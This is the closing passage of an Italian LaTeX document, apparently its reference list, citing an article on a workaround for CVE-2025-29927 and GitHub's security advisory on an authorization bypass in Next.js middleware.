	Articolo sul \textit{workaround} della vulnerabilità CVE-2025-29927.
	\item \href{https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw}{Authorization Bypass in Next.js Middleware}

	\emph{Security advisory} di GitHub che descrive la vulnerabilità CVE-2025-29927.
\end{enumerate}

\end{document}

